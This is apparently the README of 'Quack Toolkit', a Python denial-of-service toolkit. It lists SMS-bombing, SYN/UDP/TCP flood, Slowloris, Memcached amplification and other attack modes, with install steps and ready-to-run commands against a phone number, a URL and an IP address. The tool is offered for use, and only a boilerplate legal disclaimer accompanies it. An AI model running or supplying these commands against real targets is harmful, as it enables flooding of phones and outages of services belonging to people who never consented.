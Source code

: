# Quack Toolkit

![quack](https://i.imgur.com/dXxtAt7.jpg)

<p align="center">
  <a href="http://egozi.cf/">
    <img src="https://img.shields.io/badge/EgoziProject-Daniel%20Shten-blue.svg">
  </a>
  <a href="https://github.com/08dAnieL04/quack/releases">
    <img src="https://img.shields.io/github/v/release/08dAnieL04/quack.svg">
  </a>
  <a href="https://wikipedia.org/wiki/Python_(programming_language)">
    <img src="https://img.shields.io/badge/language-python-blue.svg">
 </a>
  <a href="https://github.com/08dAnieL04/quack/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues/08dAnieL04/quack.svg">
  </a>
  <a href="https://github.com/08dAnieL04/quack/wiki">
      <img src="https://img.shields.io/badge/Wiki%20-Quack-lightgrey.svg">
 </a>
  <a href="https://twitter.com/08dAnieL04">
    <img src="https://img.shields.io/badge/Twitter-@08dAnieL04-blue.svg">
 </a>
</p>

***

# About Quack Toolkit

```
Quack Toolkit is a set of tools to provide denial 
of service attacks. Quack Toolkit includes SMS attack 
tool, HTTP attack tool and many other attack tools.
```

***

# Getting started

## Quack installation

> cd quack

> chmod +x install.sh

> ./install.sh

## Quack uninstallation

> cd quack

> chmod +x uninstall.sh

> ./uninstall.sh

***

# Quack Toolkit execution

> quack -h

```
usage: quack [-h] [--target <IP:port/URL/phone>]
             [--tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]]
             [--timeout <timeout>] [--threads <threads>] [-u] [--version]

optional arguments:
  -h, --help            show this help message and exit
  --target <IP:port/URL/phone>
                        Target IP:port, URL or phone.
  --tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]
                        Attack tool.
  --timeout <timeout>   Timeout in secounds.
  --threads <threads>   Threads count.
  -u, --update          Update Quack Toolkit.
  --version             Show Quack Toolkit version.
```

***
  
# Quack Toolkit examples

## Example of the SMS attack
    
> quack --tool SMS --target 15554443333 --timeout 10 --threads 10
    
## Example of the HTTP attack

> quack --tool HTTP --target http://<span></span>example.com/ --timeout 10 --threads 10
    
## Example of the TCP attack

> quack --tool TCP --target 192.168.1.100:80 --timeout 10 --threads 10

***

# Quack Toolkit disclaimer

```
Usage of the Quack Toolkit for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, federal, and international laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program.
```

***

# Quack Toolkit license

By :- dAnieL Leave a Credit

